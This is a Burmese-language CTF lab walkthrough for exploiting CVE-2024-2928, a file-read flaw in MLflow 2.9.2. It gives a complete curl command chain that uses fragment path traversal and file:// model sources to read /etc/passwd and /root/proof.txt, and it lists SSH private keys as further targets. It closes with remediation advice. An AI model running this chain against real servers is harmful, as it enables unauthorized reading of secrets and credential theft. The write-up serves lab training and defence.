

> **Responsible Use Note**  
> ဤ walkthrough သည် **authorized CTF/lab environment** အတွက်သာ ရည်ရွယ်ပါသည်။ ကိုယ်ပိုင်မဟုတ်သော system, public server, company system များတွင် ခွင့်ပြုချက်မရှိဘဲ မစမ်းသပ်ရပါ။

## 1. Machine Overview

| Item | Detail |
|---|---|
| Machine / Lab | CVE-2024-2928 MLflow Lab |
| Target Type | Standalone Web/API Machine |
| Main Service | MLflow on HTTP |
| Main Vulnerability | Local File Inclusion / Arbitrary File Read |
| Initial Access | Unauthenticated MLflow API abuse |
| Privilege Escalation | LFI to read sensitive files from restricted paths |
| Final Objective | Read `/etc/passwd`, SSH-related files if available, and `proof.txt` |

ဒီ lab မှာ target machine ပေါ်မှာ **MLflow 2.9.2** instance တစ်ခု run နေပါတယ်။ MLflow API interaction များကိုအသုံးပြုပြီး malicious experiment, run, registered model, model version စတာတွေကို chain လုပ်ပါမယ်။ Vulnerability ရဲ့ root cause က URI fragment validation မလုံလောက်ခြင်းဖြစ်ပြီး attacker က `#` fragment နောက်မှာ directory traversal sequence ထည့်ကာ local filesystem ထဲက file များကို read လုပ်နိုင်ပါတယ်။ ဒီ lab မှာ `/etc/passwd` ကိုဖတ်ပြီး vulnerability ကို confirm လုပ်ကာ နောက်ဆုံး `/root/proof.txt` ကို retrieve လုပ်ပါမယ်။

Original walkthrough ထဲမှာ enumeration target IP နှင့် exploitation URL IP မတူညီစွာဖော်ပြထားပါတယ်။ ထို့ကြောင့် ဒီ guide တွင် variable-based format ကိုသုံးထားပြီး ကိုယ့် lab target IP အတိုင်း `TARGET` ကိုပြောင်းသုံးရန်လိုပါတယ်။

## 2. Lab Setup

အောက်ပါ variables တွေကို ကိုယ့် lab environment အတိုင်းပြောင်းသုံးပါ။

```shell
export TARGET="<TARGET_IP>"
export RHOST="http://$TARGET:5000"
export EXP_NAME="poc"
export MODEL_NAME="poc"
```

| Variable | Meaning |
|---|---|
| `TARGET` | Target machine IP address |
| `RHOST` | MLflow web URL |
| `EXP_NAME` | Malicious experiment name |
| `MODEL_NAME` | Registered model name |

Required tools:

- nmap
- curl
- jq
- browser

ဒီ lab သည် reverse shell မလိုဘဲ API abuse နှင့် file read chain ကိုအဓိကထားပါတယ်။ File read vulnerability ဖြစ်သောကြောင့် command execution မဟုတ်ဘဲ server-side local file content ကို retrieve လုပ်ခြင်းဖြစ်ပါတယ်။

## 3. Attack Chain Summary

### 3.1 Text-based Attack Chain

```text
Start: Authorized Lab
→ Run Nmap scan
→ Discover SSH on port 22 and MLflow on port 5000
→ Identify MLflow version 2.9.2
→ Map MLflow 2.9.2 to CVE-2024-2928
→ Create malicious experiment with crafted artifact_location
→ Create run linked to malicious experiment
→ Create registered model
→ Create model version with file:// source
→ Retrieve /etc/passwd through get-artifact endpoint
→ Change model source to restricted path such as /root/
→ Retrieve proof.txt
```

### 3.2 Mermaid Flowchart



### 3.3 Attack Chain Logic

ဒီ attack chain ရဲ့ logic က MLflow API objects တွေဖြစ်တဲ့ experiment, run, registered model, model version တို့ကို chain လုပ်ခြင်းဖြစ်ပါတယ်။ ပထမဆုံး malicious artifact location ကို experiment ထဲထည့်ထားပြီး run တစ်ခုဖန်တီးပါမယ်။ ထို့နောက် registered model နှင့် model version ကိုဖန်တီးကာ `file:///etc/` သို့မဟုတ် `file:///root/` ကဲ့သို့ local filesystem path ကို source အဖြစ်ညွှန်ပါမယ်။ နောက်ဆုံး `get-artifact` endpoint မှတဆင့် server-side file content ကို HTTP response အဖြစ်ပြန်ယူပါမယ်။

## 4. Enumeration Phase

### 4.1 Full Port Scan

Target machine ရဲ့ exposed services တွေကိုသိရန် Nmap scan run ပါ။

```shell
nmap -sC -sV -v $TARGET -p-
```

| Option | Purpose |
|---|---|
| `-sC` | Nmap default scripts များကို run လုပ်ရန် |
| `-sV` | Service name နှင့် version ကို detect လုပ်ရန် |
| `-v` | Verbose output ပြရန် |
| `-p-` | TCP port `1` မှ `65535` အထိ scan လုပ်ရန် |

Port scan သည် target machine မှာ ဘယ် service တွေ run နေလဲသိရန် ပထမဆုံးအဆင့်ဖြစ်ပါတယ်။ ဒီ lab မှာ MLflow သည် common web port `80` မဟုတ်ဘဲ port `5000` ပေါ်မှာ run နေသောကြောင့် full port scan လုပ်ခြင်းသည်အရေးကြီးပါတယ်။

### 4.2 Important Scan Result

```text
PORT     STATE  SERVICE  VERSION
22/tcp   open   ssh      OpenSSH 8.9p1 Ubuntu
5000/tcp open   http     Gunicorn
```

Port `22` သည် SSH ဖြစ်ပြီး credential မရှိသေးပါက initial access အတွက်အသုံးမဝင်သေးပါ။ Port `5000` သည် HTTP service ဖြစ်ပြီး Nmap result ထဲမှာ title `MLflow` နှင့် server header `gunicorn` ကိုတွေ့ရပါတယ်။ MLflow service ကိုတွေ့သောကြောင့် browser မှာ version နှင့် API behavior ကိုဆက်လက်စစ်ဆေးပါမယ်။

### 4.3 Service Prioritization

ဒီ lab မှာ port `5000` MLflow service ကို ဦးစားပေးစစ်ပါမယ်။ အကြောင်းက MLflow web/API service ဖြစ်ပြီး version disclosure, model registry API, experiment API, artifact retrieval endpoint စတဲ့ attack surface တွေရှိနိုင်သောကြောင့်ဖြစ်ပါတယ်။ SSH သည် နောက်ပိုင်း sensitive file သို့မဟုတ် credential ရရှိမှသာအသုံးဝင်နိုင်ပါတယ်။

## 5. Web / Service Enumeration

Browser မှာ MLflow service ကိုဖွင့်ပါ။

```text
http://<TARGET_IP>:5000/
```

သို့မဟုတ်:

```text
http://$TARGET:5000/
```

MLflow web UI မှာ version `2.9.2` ကိုတွေ့နိုင်ပါတယ်။

```text
Product: MLflow
Version: 2.9.2
Port: 5000
```

Version information ကို vulnerability mapping အတွက်အသုံးပြုပါမယ်။ MLflow `2.9.2` သည် CVE-2024-2928 Local File Inclusion issue နှင့်ဆက်စပ်နေပြီး fixed version သည် `2.11.3` ဖြစ်ကြောင်း advisory တွေမှာဖော်ပြထားပါတယ်။

## 6. Vulnerability Root Cause

CVE-2024-2928 သည် **MLflow 2.9.2** တွင်ရှိသော Local File Inclusion / Arbitrary File Read vulnerability ဖြစ်ပါတယ်။ Root cause သည် URI fragment parsing နှင့် validation logic မလုံလောက်ခြင်းဖြစ်ပါတယ်။

Normal URI မှာ `?` နောက်ပိုင်းကို query string လို့ခေါ်ပြီး `#` နောက်ပိုင်းကို fragment လို့ခေါ်ပါတယ်။ Patch သို့မဟုတ် validation logic တစ်ခုက query string ထဲရှိ `../` traversal ကိုစစ်ပေမယ့် fragment part ထဲရှိ traversal ကိုမစစ်ခဲ့ပါက attacker က `#` နောက်မှာ path traversal sequence ထည့်ပြီး local file path သို့ညွှန်နိုင်ပါတယ်။

ဒီ lab တွင် malicious artifact location သည် အောက်ပါ idea ကိုအသုံးပြုပါတယ်။

```text
http:///#/../../../../../../../../../../etc/
```

ဒီလို crafted URI ကြောင့် MLflow artifact/model retrieval logic က remote artifact location အဖြစ်ယူဆထားသော်လည်း backend parsing confusion ဖြစ်ပြီး local filesystem ထဲက `/etc/` path ကို access လုပ်နိုင်သွားပါတယ်။

ရိုးရိုး analogy နဲ့ပြောရရင် application က “external artifact location” ကိုသွားဖတ်မယ်လို့ထင်ထားပေမယ့် attacker က URL ရဲ့ fragment အပိုင်းကိုသုံးပြီး server ကို “local filesystem ထဲက path ကိုဖတ်ပါ” ဆိုတဲ့ direction ပေးလိုက်တာဖြစ်ပါတယ်။ Validation က fragment part ကိုလုံလောက်စွာမစစ်ထားလို့ LFI ဖြစ်လာပါတယ်။

## 7. Safe Vulnerability Confirmation

### 7.1 Create Malicious Experiment

ပထမဆုံး MLflow experiment တစ်ခုကို malicious `artifact_location` ဖြင့်ဖန်တီးပါ။

```shell
curl -s -X POST   -H 'Content-Type: application/json'   -d '{"name": "poc", "artifact_location": "http:///#/../../../../../../../../../../../../../../etc/"}'   "$RHOST/ajax-api/2.0/mlflow/experiments/create"
```

Expected output:

```json
{
  "experiment_id": "390847357110847314"
}
```

Returned `experiment_id` ကိုနောက်တစ်ဆင့်အတွက်သိမ်းထားပါ။

```shell
export EXPERIMENT_ID="390847357110847314"
```

ဒီအဆင့်မှာ MLflow ထဲမှာ crafted artifact path ပါသော experiment ကိုဖန်တီးထားခြင်းဖြစ်ပါတယ်။ File ကိုဖတ်မထားသေးပါ။

### 7.2 Create Run Linked to Experiment

```shell
curl -s -X POST   -H 'Content-Type: application/json'   -d "{"experiment_id": "$EXPERIMENT_ID"}"   "$RHOST/api/2.0/mlflow/runs/create"
```

Expected output ထဲမှာ `run_id` သို့မဟုတ် `run_uuid` ပါလာပါမယ်။

```json
{
  "run": {
    "info": {
      "run_id": "5676da95ee804ac18f8d8e8add2aa920",
      "artifact_uri": "http:///5676da95ee804ac18f8d8e8add2aa920/artifacts#/../../../../../../etc/"
    }
  }
}
```

Run ID ကိုသိမ်းပါ။

```shell
export RUN_ID="5676da95ee804ac18f8d8e8add2aa920"
```

ဒီအဆင့်မှာ malicious artifact URI ကို run object ထဲမှာ persist လုပ်ထားပါတယ်။ နောက်တစ်ဆင့်မှာ model registry API နဲ့ချိတ်ပြီး file retrieval endpoint မှတဆင့် file read လုပ်ပါမယ်။

## 8. Exploitation

### 8.1 Create Registered Model

```shell
curl -s -X POST   -H 'Content-Type: application/json'   -d '{"name": "poc"}'   "$RHOST/ajax-api/2.0/mlflow/registered-models/create"
```

Expected output:

```json
{
  "registered_model": {
    "name": "poc"
  }
}
```

### 8.2 Create Model Version Pointing to `/etc/`

```shell
curl -s -X POST   -H 'Content-Type: application/json'   -d "{"name": "poc", "run_id": "$RUN_ID", "source": "file:///etc/"}"   "$RHOST/ajax-api/2.0/mlflow/model-versions/create"
```

Expected output:

```json
{
  "model_version": {
    "name": "poc",
    "version": "1",
    "source": "file:///etc/",
    "status": "READY"
  }
}
```

ဒီအဆင့်မှာ model version source ကို server local path `/etc/` သို့ညွှန်ထားပါတယ်။ နောက်တစ်ဆင့်မှာ artifact retrieval endpoint ကိုသုံးပြီး `/etc/passwd` ကိုဖတ်ပါမယ်။

### 8.3 Retrieve `/etc/passwd`

```shell
curl -s "$RHOST/model-versions/get-artifact?path=passwd&name=poc&version=1"
```

Expected output:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

`/etc/passwd` output ပြန်ရလာပါက Local File Inclusion / arbitrary file read vulnerability confirmed ဖြစ်ပါတယ်။ ဒီ file သည် Linux system user list ကိုပြသသော read-only system file ဖြစ်ပြီး exploit verification အတွက်အသုံးများပါတယ်။

## 9. Access Confirmation

ဒီ vulnerability သည် shell access မဟုတ်ပါ။ Server-side file read access ဖြစ်ပါတယ်။ ထို့ကြောင့် `id` သို့မဟုတ် `whoami` command run မလုပ်နိုင်ပါ။ Confirmation သည် local file content ပြန်ရလာခြင်းဖြစ်ပါတယ်။

သက်သေပြနိုင်သော safe files:

```text
/etc/passwd
/etc/hostname
/etc/os-release
```

Example:

```shell
curl -s "$RHOST/model-versions/get-artifact?path=passwd&name=poc&version=1"
```

ဒီ output က server-side local file ကိုဖတ်နိုင်ကြောင်းပြသပါတယ်။ LFI vulnerability များသည် command execution မဟုတ်သော်လည်း sensitive file များကိုဖတ်နိုင်ပါက SSH keys, configuration secrets, tokens, proof files, cloud credentials စသည်တို့ကိုထုတ်ယူနိုင်သောကြောင့် impact မြင့်နိုင်ပါတယ်။

## 10. Shell Stabilization

ဒီ lab တွင် reverse shell မရယူပါ။ LFI / arbitrary file read vulnerability ကိုအသုံးပြုထားသောကြောင့် shell stabilization မလိုအပ်ပါ။

LFI exploitation တွင် အရေးကြီးသည်မှာ:

- target path ကိုမှန်ကန်စွာရွေးချယ်ခြင်း
- model source path ကိုမှန်ကန်စွာချိန်ခြင်း
- artifact retrieval endpoint တွင် `path`, `name`, `version` parameter များမှန်ကန်ခြင်း
- sensitive file ကို read-only manner ဖြင့် retrieve လုပ်ခြင်း

## 11. Privilege Escalation Enumeration

ဒီ lab မှာ privilege escalation ကို shell ထဲက local enumeration အဖြစ်မလုပ်ပါ။ Instead, LFI မှတဆင့် restricted path များကိုဖတ်နိုင်ခြင်းကိုအသုံးပြုပါတယ်။

Potential files to check in authorized lab context:

```text
/etc/passwd
/etc/hostname
/etc/os-release
/root/proof.txt
/root/.ssh/id_rsa
/home/<user>/.ssh/id_rsa
```

အရေးကြီးတာက file read vulnerability တစ်ခုတည်းဖြင့် root shell မရသေးပါ။ သို့သော် root-owned sensitive files ကိုဖတ်နိုင်ပါက proof retrieval သို့မဟုတ် credential theft ဖြစ်နိုင်ပါတယ်။ SSH private key ရရှိပါက SSH login မှတဆင့် shell access အထိ chain ဖြစ်နိုင်ပါတယ်။

## 12. Privilege Escalation

### 12.1 Exact Weakness

ဒီ lab ရဲ့ escalation weakness သည် MLflow API chain မှတဆင့် server local filesystem ထဲက restricted path များကို model artifact အဖြစ် retrieve လုပ်နိုင်ခြင်းဖြစ်ပါတယ်။ MLflow service account ကဖတ်နိုင်သော file များကို attacker က HTTP response အဖြစ်ရယူနိုင်ပါတယ်။

### 12.2 Point Model Version to `/root/`

`/root/proof.txt` ကိုဖတ်ရန် model source ကို `/root/` သို့ညွှန်ပါ။ Model name conflict မဖြစ်စေရန် model အသစ်ဖန်တီးပါ။

```shell
curl -s -X POST   -H 'Content-Type: application/json'   -d '{"name": "poc1"}'   "$RHOST/ajax-api/2.0/mlflow/registered-models/create"
```

Model version ကို `/root/` source ဖြင့်ဖန်တီးပါ။

```shell
curl -s -X POST   -H 'Content-Type: application/json'   -d "{"name": "poc1", "run_id": "$RUN_ID", "source": "file:///root/"}"   "$RHOST/ajax-api/2.0/mlflow/model-versions/create"
```

Expected output:

```json
{
  "model_version": {
    "name": "poc1",
    "version": "1",
    "source": "file:///root/",
    "status": "READY"
  }
}
```

### 12.3 Retrieve `proof.txt`

```shell
curl -s "$RHOST/model-versions/get-artifact?path=proof.txt&name=poc1&version=1"
```

Expected output:

```text
[REDACTED PROOF.TXT]
```

ဒီ output ရလာပါက restricted directory ထဲက proof file ကိုဖတ်နိုင်ကြောင်းအတည်ပြုနိုင်ပါတယ်။ ဒီအဆင့်ကို target fully compromised အဖြစ်သတ်မှတ်ပါတယ်။

## 13. Proof / Flag

Final proof ကိုဖတ်ရန်:

```shell
curl -s "$RHOST/model-versions/get-artifact?path=proof.txt&name=poc1&version=1"
```

အကယ်၍ proof file မတွေ့ပါက အောက်ပါ paths များကို authorized lab context အတွင်းသာစစ်နိုင်ပါတယ်။

```text
/root/proof.txt
/root/flag.txt
/home/<user>/proof.txt
/home/<user>/flag.txt
```

MLflow artifact retrieval endpoint တွင် `source` သည် directory path ဖြစ်ပြီး `path` သည် ထို directory အောက်မှ file name ဖြစ်ကြောင်း သတိပြုပါ။

## 14. Troubleshooting

| Problem | Possible Cause | Check / Fix |
|---|---|---|
| Port 5000 not found | Wrong target or service down | Run full port scan with `-p-` |
| MLflow UI does not load | Wrong IP or blocked port | Confirm `RHOST` and browser access |
| Experiment creation fails | Wrong endpoint or JSON format | Check `/ajax-api/2.0/mlflow/experiments/create` |
| No `experiment_id` returned | API request failed | Use `curl -i` to inspect response |
| Run creation fails | Wrong experiment ID | Confirm `EXPERIMENT_ID` |
| Model version creation fails | Wrong run ID or model name missing | Confirm `RUN_ID` and registered model |
| `/etc/passwd` not returned | Wrong model source or path | Use `source=file:///etc/` and `path=passwd` |
| `proof.txt` not returned | Wrong directory or insufficient permission | Confirm `source=file:///root/` and path |
| Output is HTML/error | Wrong endpoint or URL encoding issue | Check full URL and query parameters |

Troubleshooting မှာ အဓိကစစ်ရမည့်အရာတွေက `TARGET`, `RHOST`, `EXPERIMENT_ID`, `RUN_ID`, model `name`, model `version`, and artifact `path` တို့ဖြစ်ပါတယ်။ MLflow API chain မှာ တစ်ဆင့်မှားသွားပါက နောက်အဆင့် file read မအောင်မြင်နိုင်ပါ။

## 15. Root Cause and Remediation

| Issue | Risk | Recommended Remediation |
|---|---|---|
| MLflow 2.9.2 vulnerable version | Arbitrary local file read | Upgrade MLflow to fixed version `2.11.3` or later |
| URI fragment validation weakness | Directory traversal through fragment | Validate and normalize full URI including fragment |
| Unauthenticated API exposure | External attacker can abuse MLflow APIs | Restrict MLflow access with authentication and network controls |
| Sensitive file readability | Secrets and proof files can be exposed | Run MLflow as least-privileged user |
| Local artifact source abuse | Server filesystem exposure | Restrict `file://` artifact/model source usage |
| Limited monitoring | Delayed detection | Monitor unusual experiment/model creation and artifact reads |

Remediation အတွက် MLflow ကို fixed version သို့ upgrade လုပ်ရပါမယ်။ URI validation လုပ်ရာတွင် query string သာမက fragment part ကိုပါ normalize လုပ်ပြီး directory traversal sequence များကိုတားဆီးရပါမယ်။ `file://` source usage ကိုလိုအပ်သလောက်သာခွင့်ပြုပြီး server local filesystem access ကိုကန့်သတ်သင့်ပါတယ်။

MLflow service ကို root user အဖြစ်မ run သင့်ပါ။ Least privilege service account ဖြင့်သာ run ထားပါက LFI ဖြစ်သော်လည်း `/root/` ကဲ့သို့ sensitive directory များကိုဖတ်နိုင်ခြင်းကိုလျှော့ချနိုင်ပါတယ်။ Production environment တွင် MLflow UI/API ကို public network မှမဖွင့်သင့်ဘဲ VPN, authentication, reverse proxy access control တို့ကိုအသုံးပြုသင့်ပါတယ်။

## 16. Key Learning Points

- MLflow service သည် port `5000` ပေါ်တွင် run နေနိုင်ပါတယ်။
- Version disclosure သည် CVE mapping အတွက်အရေးကြီးပါတယ်။
- CVE-2024-2928 သည် command execution မဟုတ်ဘဲ Local File Inclusion / arbitrary file read ဖြစ်ပါတယ်။
- URI fragment `#` အပိုင်းကိုလည်း security validation ထဲတွင်ထည့်စစ်ရန်လိုပါတယ်။
- MLflow experiment, run, registered model, model version APIs များကို chain လုပ်ပြီး file read exploit ဖြစ်နိုင်ပါတယ်။
- `/etc/passwd` ကိုဖတ်နိုင်ခြင်းသည် LFI confirmation အတွက်အသုံးဝင်သော safe proof ဖြစ်ပါတယ်။
- Restricted file များကိုဖတ်နိုင်ပါက proof file, SSH key, config secret, token များထွက်နိုင်ပါတယ်။
- Least privilege service account မရှိပါက LFI impact ပိုကြီးနိုင်ပါတယ်။

## 17. Quick Command Reference

```shell
# Variables
export TARGET="<TARGET_IP>"
export RHOST="http://$TARGET:5000"
export EXP_NAME="poc"
export MODEL_NAME="poc"

# Enumeration
nmap -sC -sV -v $TARGET -p-

# Create malicious experiment
curl -s -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "artifact_location": "http:///#/../../../../../../../../../../../../../../etc/"}' "$RHOST/ajax-api/2.0/mlflow/experiments/create"

# Set experiment ID from response
export EXPERIMENT_ID="<EXPERIMENT_ID>"

# Create run
curl -s -X POST -H 'Content-Type: application/json' -d "{"experiment_id": "$EXPERIMENT_ID"}" "$RHOST/api/2.0/mlflow/runs/create"

# Set run ID from response
export RUN_ID="<RUN_ID>"

# Create registered model
curl -s -X POST -H 'Content-Type: application/json' -d '{"name": "poc"}' "$RHOST/ajax-api/2.0/mlflow/registered-models/create"

# Create model version for /etc/
curl -s -X POST -H 'Content-Type: application/json' -d "{"name": "poc", "run_id": "$RUN_ID", "source": "file:///etc/"}" "$RHOST/ajax-api/2.0/mlflow/model-versions/create"

# Read /etc/passwd
curl -s "$RHOST/model-versions/get-artifact?path=passwd&name=poc&version=1"

# Create registered model for /root/
curl -s -X POST -H 'Content-Type: application/json' -d '{"name": "poc1"}' "$RHOST/ajax-api/2.0/mlflow/registered-models/create"

# Create model version for /root/
curl -s -X POST -H 'Content-Type: application/json' -d "{"name": "poc1", "run_id": "$RUN_ID", "source": "file:///root/"}" "$RHOST/ajax-api/2.0/mlflow/model-versions/create"

# Read proof
curl -s "$RHOST/model-versions/get-artifact?path=proof.txt&name=poc1&version=1"
```

## 18. Final Summary

ဒီ lab ရဲ့ compromise path သည် MLflow service ကို port `5000` ပေါ်မှာရှာဖွေခြင်း၊ version `2.9.2` ကို CVE-2024-2928 နဲ့ mapping လုပ်ခြင်း၊ malicious experiment/run/model API chain ကိုအသုံးပြုခြင်း၊ `/etc/passwd` ကိုဖတ်၍ LFI ကို confirm လုပ်ခြင်း၊ နောက်ဆုံး `/root/proof.txt` ကို retrieve လုပ်ခြင်းဖြစ်ပါတယ်။ အဓိက defensive lesson က URL fragment validation, API access control, `file://` source restriction, MLflow patching, and least privilege service configuration များမရှိပါက local file read vulnerability တစ်ခုက sensitive data exposure အထိဖြစ်သွားနိုင်ခြင်းဖြစ်ပါတယ်။

```text
MLflow 2.9.2 on port 5000
→ CVE-2024-2928 LFI
→ Malicious experiment and run
→ Model version with file:// source
→ Read /etc/passwd
→ Read /root/proof.txt
```
